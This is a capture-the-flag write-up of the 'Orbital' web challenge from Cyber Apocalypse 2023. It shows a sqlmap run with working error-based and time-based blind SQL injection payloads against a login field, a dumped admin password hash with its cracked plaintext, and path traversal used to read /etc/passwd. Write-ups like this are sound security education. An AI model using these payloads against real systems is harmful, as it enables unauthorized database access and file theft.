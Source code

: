 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Orbital Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: web
challenge: Orbital
tags: "web, legend, sql, sqli, sqlmap, lfi"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Orbital
> Solved by Legend

Challenge description


> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

In this challenge also a login page is their.

![](https://i.imgur.com/ak8NBt8.png)


And with no user info or details in source code I checked the docker files.

This challenge is similar to the `Drobots` challenge. It’s running `Flask` application with `MySQL`. So I looked into the docker file.

The `config.py` contains the database config info.

![](https://i.imgur.com/taRJF8c.png)


And `database.py` contain the database logic along with the hint but it is modified a little.
This time the `password` is getting verified with `passwordVerify`.

![](https://i.imgur.com/B5AErEg.png)


I again saved the request and gave it to `sqlmap`  which gave me the token and also bruteforced the password.


    sqlmap -r ./req --dbms=mysql -D orbital -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 2720 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(2720=2720,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 1000 FROM (SELECT(SLEEP(5)))dfxy) AND "a"="a","password":"a"}
    ---


    +----+-------------------------------------------------+----------+
    | id | password                                        | username |
    +----+-------------------------------------------------+----------+
    | 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
    +----+-------------------------------------------------+----------+

Now once logged in the functionality of the website was different.

![](https://i.imgur.com/tDoI12L.png)


Now I checked the `routes.py` file which contained a logic of the application. Here in the logic of communication the hint was given that the file escape for characters are not there for the filename. 

![](https://i.imgur.com/zFxOjWB.png)


Then I tried the path traversal to get the `/etc/passwd` file. It worked. 

![](https://i.imgur.com/yh8DtGq.png)


For this challenge they changed the location of the flag name from `flag.txt` to `signal_sleuth_firmware` in root which is written in the docker config.


    COPY flag.txt /signal_sleuth_firmware

Now we need to get the flag.

![](https://i.imgur.com/BFlcwv3.png)

